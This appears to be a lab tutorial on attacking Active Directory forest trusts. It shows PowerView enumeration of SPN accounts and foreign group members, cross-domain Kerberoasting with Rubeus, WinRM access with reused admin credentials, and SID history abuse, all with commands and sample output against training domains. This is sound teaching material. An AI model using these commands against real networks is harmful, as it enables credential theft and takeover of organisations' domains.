 ## Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.

### Enumerating Accounts for Associated SPNs Using Get-DomainUser
```powershell-session
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

If an account with SPN is from the Domain Admins group in the target domain, we'd have full admin rights to the target domain, with Kerberoasting and cracking the hash.

### Enumerating the Service Account
```powershell-session
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

### Performing a Kerberoasting Attacking with Rubeus using /domain Flag
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

Now we can attempt to crack the hash.

## Admin Password Re-Use & Group Membership

From time to time, bidirectional forest trust is managed by admins from the same company. If we compromise domain A and obtain clear text passwords of privileged account, and domain B has highly privileged account with the same or similar name, then it is worth checking for password reuse across the two forests.

We may also see users or admins from domain A as members of group in domain B. Only `Domain Local Groups` allow security principles from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship.

We can use the PowerView function [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) to enumerate groups with users that don't belong to the domain, also known as `foreign group membership`.

### Using Get-DomainForeignGroupMember
```powershell-session
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. We can verify this access using the `Enter-PSSession` cmdlet to connect over WinRM.

### Accessing DC03 Using Enter-PSSession
```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

## SID History Abuse - Cross Forest

SID History can also be abused across forest trust. If a user is migrated from one forest to another and SID filtering isn't enabled, it becomes possible to add SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. We can see an example below, if jjones had administrative access in the inlanefreight domain he will have it now too.

![[sid-history.png]]

